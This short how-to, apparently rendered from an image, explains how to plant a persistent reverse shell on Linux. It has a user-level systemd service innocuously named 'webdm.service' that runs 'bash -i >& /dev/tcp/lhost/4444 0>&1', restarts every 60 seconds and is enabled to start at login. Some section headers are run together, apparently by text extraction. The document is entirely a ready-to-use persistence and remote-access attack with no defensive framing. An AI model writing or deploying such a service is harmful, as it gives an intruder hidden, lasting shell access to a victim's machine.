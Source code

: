
Create a service file in `~/.config/systemd/user/`.
``vim ~/.config/systemd/user/webdm.service

Add the following configuration:
```
[Unit]
Description=Reverse[Service]
ExecStart=/usr/bin/bash -c 'bash -i >& /dev/tcp/lhost/4444 0>&1'
Restart=always
RestartSec=60[Install]
WantedBy=default.target
```

Enable service and start service:
``systemctl --user enable webdm.service``
``systemctl --user start webdm.service
